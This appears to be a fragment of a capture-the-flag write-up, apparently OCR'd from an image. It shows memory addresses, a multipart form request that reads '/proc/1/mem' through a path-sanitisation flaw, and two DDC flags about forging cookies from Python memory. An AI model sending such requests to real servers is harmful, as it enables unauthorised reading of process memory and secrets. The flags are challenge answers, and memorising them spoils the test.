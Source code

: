 

7fff32d8d000 - 140734046457856

7fff32dae000 - 140734046593024



----------800612066
Content-Disposition: form-data; name="offset"

140734046457856
----------800612066
Content-Disposition: form-data; name="amount"

135168
----------800612066
Content-Disposition: form-data; name="filename"

/proc/1/mem
----------800612066--


DDC{P4th_s4n1t1z4t10n_d0n3_wr0ng}


DDC{P4r51ng_py7h0n_m3m_t0_f0rg3_c00ki35}